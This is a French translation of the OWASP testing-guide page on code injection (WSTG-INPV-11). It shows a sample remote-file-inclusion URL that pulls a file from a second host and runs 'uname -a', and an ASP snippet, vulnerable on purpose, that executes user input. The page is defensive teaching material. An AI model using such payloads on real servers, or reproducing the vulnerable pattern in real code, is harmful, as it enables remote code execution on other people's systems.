 # Test d'injection de code

|ID          |
|------------|
|WSTG-INPV-11|

## Sommaire

Cette section décrit comment un testeur peut vérifier s'il est possible d'entrer du code en entrée sur une page Web et de le faire exécuter par le serveur Web.

Dans les tests [Code Injection](https://owasp.org/www-community/attacks/Code_Injection), un testeur soumet une entrée qui est traitée par le serveur Web sous forme de code dynamique ou de fichier inclus. Ces tests peuvent cibler divers moteurs de script côté serveur, par exemple ASP ou PHP. Des pratiques appropriées de validation des entrées et de codage sécurisé doivent être utilisées pour se protéger contre ces attaques.

## Objectifs des tests

- Identifiez les points d'injection où vous pouvez injecter du code dans l'application.
- Évaluer la sévérité de l'injection.

## Comment tester

### Test en boîte noire

#### Test des vulnérabilités d'injection PHP

À l'aide de la chaîne de requête, le testeur peut injecter du code (dans cet exemple, une URL malveillante) à traiter dans le cadre du fichier inclus :

`http://www.exemple.com/uptime.php?pin=http://www.exemple2.com/packx1/cs.jpg?&cmd=uname%20-a`

> L'URL malveillante est acceptée en paramètre de la page PHP, qui utilisera ultérieurement la valeur dans un fichier inclus.

### Test en boîte grise

#### Test des vulnérabilités d'injection de code ASP

Examinez le code ASP pour les entrées utilisateur utilisées dans les fonctions d'exécution. L'utilisateur peut-il saisir des commandes dans le champ de saisie Données ? Ici, le code ASP enregistrera l'entrée dans un fichier puis l'exécutera :

```asp
<%
If not isEmpty(Request( "Data" ) ) Then
Dim fso, f
'User input Data is written to a file named data.txt
Set fso = CreateObject("Scripting.FileSystemObject")
Set f = fso.OpenTextFile(Server.MapPath( "data.txt" ), 8, True)
f.Write Request("Data") & vbCrLf
f.close
Set f = nothing
Set fso = Nothing

'Data.txt is executed
Server.Execute( "data.txt" )

Else
%>

<form>
<input name="Data" /><input type="submit" name="Enter Data" />

</form>
<%
End If
%>)))
```

### Références

- [Security Focus](http://www.securityfocus.com)
- [Insecure.org](http://www.insecure.org)
- [Wikipédia](http://www.wikipedia.org)
- [Révision du code pour l'injection de système d'exploitation](https://wiki.owasp.org/index.php/OS_Injection)
